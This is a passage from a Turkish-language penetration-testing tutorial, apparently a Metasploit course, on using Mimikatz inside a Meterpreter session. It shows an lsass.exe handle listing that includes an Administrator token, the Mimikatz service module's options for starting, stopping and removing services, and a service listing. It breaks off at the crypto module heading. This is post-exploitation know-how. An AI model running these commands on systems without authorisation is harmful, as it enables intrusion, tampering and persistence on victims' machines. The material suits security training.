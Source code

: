```bash
  760  lsass.exe                 -&gt;  1352       Process 480     jusched.exe
  760  lsass.exe                 -&gt;  1360       Process 2056    TPAutoConnSvc.exe
  760  lsass.exe                 -&gt;  1424       Token           WINXP-E95CE571A1\Administrator
...snip...
```



## Windows Servisleri İşlemleri



Mimikatz, Windows servislerini başlatma, durdurma ve kaldırma imkanı da sağlamaktadır. Servis modülüne ve seçeneklerine bakalım.


```bash
meterpreter **&gt;** mimikatz_command -f service::
Module : 'service' identifié, mais commande '' introuvable

Description du module : Manipulation des services
        list    - Liste les services et pilotes
       start    - Démarre un service ou pilote
        stop    - Arrête un service ou pilote
      remove    - Supprime un service ou pilote
    mimikatz    - Installe et/ou démarre le pilote mimikatz
```



Bu seçeneklerden, listeleme modülünü kullanalım.


```bash
meterpreter **&gt;** mimikatz_command -f service::list
...snip...
        WIN32_SHARE_PROCESS     STOPPED RemoteRegistry  Remote Registry
        KERNEL_DRIVER   RUNNING RFCOMM  Bluetooth Device **(**RFCOMM Protocol TDI**)**
        WIN32_OWN_PROCESS       STOPPED RpcLocator      Remote Procedure Call **(**RPC**)** Locator
  980   WIN32_OWN_PROCESS       RUNNING RpcSs   Remote Procedure Call **(**RPC**)**
        WIN32_OWN_PROCESS       STOPPED RSVP    QoS RSVP
  760   WIN32_SHARE_PROCESS     RUNNING SamSs   Security Accounts Manager
        WIN32_SHARE_PROCESS     STOPPED SCardSvr        Smart Card
 1124   WIN32_SHARE_PROCESS     RUNNING Schedule        Task Scheduler
        KERNEL_DRIVER   STOPPED Secdrv  Secdrv
 1124   INTERACTIVE_PROCESS     WIN32_SHARE_PROCESS     RUNNING seclogon        Secondary Logon
 1804   WIN32_OWN_PROCESS       RUNNING Secunia PSI Agent       Secunia PSI Agent
 3460   WIN32_OWN_PROCESS       RUNNING Secunia Update Agent    Secunia Update Agent
...snip...
```



## Kripto Modülü



Mimikatz’ın sağladığı kripto modülüne ve seçeneklerine bakalım.
